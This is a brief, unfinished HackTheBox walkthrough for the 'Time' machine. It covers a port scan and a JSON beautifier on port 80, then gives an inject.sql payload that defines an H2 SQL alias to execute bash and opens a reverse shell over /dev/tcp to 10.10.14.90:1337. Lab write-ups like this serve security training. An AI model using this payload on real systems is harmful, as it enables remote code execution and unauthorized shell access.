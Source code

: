 ```yaml
---
title: " HackTheBox {Time}"
description: Walkthrough of the Time Machine on Hackthebox.
---
```

![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)

## Scanning port

```
Open port :

22/tcp open ssh
80/tcp open http
```

We can see that there is the ssh / 22 port and the 80 / http port which are open.

We are going to see the http / 80 port to see what is interesting.

We see an online json beautifier & Validator with 2 options, "Beatify" & "Validate!(Beta)".. I intercepted both options in burpsuite and i have just put a word in the field and submitted.

![time](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

Now, you need to create a inject.sql files and add a reverse shell to have it call back to me. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```







